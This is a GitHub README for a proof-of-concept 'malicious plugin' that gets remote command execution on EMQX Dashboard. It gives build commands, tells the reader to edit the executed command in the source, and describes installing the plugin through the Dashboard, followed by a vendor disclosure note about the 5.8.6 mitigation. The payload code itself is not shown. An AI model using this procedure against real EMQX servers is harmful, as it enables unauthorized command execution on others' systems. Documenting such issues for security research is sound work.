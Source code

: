 # EMQX Dashboard - RCE

This is a malicious plugin for [EMQX Dashboard](https://github.com/emqx/emqx-dashboard) which allows to execute commands remotely.

The code in this repository is mostly based on one of the latest releases of the [EMQX plugin template](https://github.com/emqx/emqx-plugin-template) repository.


----------------------

## Plugin Compilation

1. Install all the necessary dependencies, Erlang and rebar3. In the latest Kali release (Kali 2024.4) you can use:

```shell
sudo apt update
sudo apt install -y build-essential autoconf libncurses5-dev libssl-dev \
    libwxgtk3.2-dev libgl1-mesa-dev libglu1-mesa-dev libpng-dev \
    libssh-dev unixodbc-dev cmake
git clone https://github.com/asdf-vm/asdf.git ~/.asdf --branch v0.13.1
echo '. "$HOME/.asdf/asdf.sh"' >> ~/.bashrc
echo '. "$HOME/.asdf/completions/asdf.bash"' >> ~/.bashrc
source ~/.bashrc
asdf --version
asdf plugin-add erlang https://github.com/asdf-vm/asdf-erlang.git
asdf install erlang 25.3
asdf global erlang 25.3
wget https://s3.amazonaws.com/rebar3/rebar3
chmod +x rebar3
sudo mv rebar3 /usr/local/bin/
```

2. Create the necessary directory and clone the plugin repository:

```shell
mkdir -p ~/.config/rebar3/templates/emqx-plugin-template
git clone https://github.com/ricardojoserf/emqx-RCE ~/.config/rebar3/templates/emqx-plugin-template
```

3. (Optional) Modify the command to be executed by updating line 47 in "src/emqx_plugin_template.erl":

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/emqx/Screenshot_1.png)

4. Generate the plugin as a tar.gz file:

```shell
rebar3 new emqx-plugin my_emqx_plugin
make -C my_emqx_plugin rel
cp my_emqx_plugin/_build/default/emqx_plugrel/my_emqx_plugin-1.0.0.tar.gz . 
```

5. Install and run via the EMQX Dashboard under the "Plugin" section.

----------------------

## Disclosure

Following discussions with the EMQX security team, they stated that this is not considered a vulnerability but rather a "feature" and have no objections to this repository being public.

However, starting from version 5.8.6 (released on 03/25/25), this feature will be mitigated by introducing "a CLI command to explicitly allow the package before installing a plugin via the HTTP API or Dashboard, improving security and preventing unauthorized installations" ([source](https://docs.emqx.com/en/emqx/latest/changes/changes-ce-v5.html#_5-8-6)).

Therefore, in earlier versions having access to the EMQX Dashboard you can achieve RCE, but in versions after 5.8.6 you will get this error:



![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/emqx/Screenshot_2.png)
